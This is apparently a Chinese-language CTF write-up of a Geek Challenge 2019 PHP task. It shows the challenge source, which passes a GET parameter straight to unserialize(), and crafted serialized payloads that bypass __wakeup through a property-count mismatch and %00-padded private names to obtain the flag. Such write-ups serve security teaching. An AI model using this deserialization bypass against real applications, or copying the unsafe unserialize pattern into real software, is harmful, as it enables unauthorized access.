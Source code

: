 ```yaml
---
Author: SuperJason
Date: 2020-01-21
---
```


## flag
`flag{518a6b39-0416-4b19-85d5-477975f31b6e}`

## 思路
1. 提示源码备份，找到www.zip网站源码，分析内容，需要利用php反序列化。让用户名为admin，密码为100。  
`O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}`
2. 这里__wakeup函数覆盖了我们传入的反序列化数据，利用序列化个数绕过  
`O:4:"Name":4:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}`
3. 由于字段类型为private，类名和字段名前面需要加上%00的前缀，Nameusername长为14是已经将%00当做一个字符了，我们需要补全  
`O:4:"Name":4:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}`
```php
function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }
```
4. 构造的序列化数据为`O:4:"Name":4:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}`  
   ![](images/极客2019-php.png)


## 总结
1. www.zip，备份文件
2. php属性序列化时不会输出%00，需要补全，但是它将%00的计入了序列化后的长度
   - private属性序列化的时候格式是，`%00类名%00成员名`，增加2个字符
   - protect属性序列化的时候格式是，`%00*%00成员名`，增加3个字符
  

  
## 源码
1. index.php
```php
<?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
?>
```
2. class.php
```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```
3. flag.php
```php
<?php
$flag = 'Syc{dog_dog_dog_dog}';
?>

```
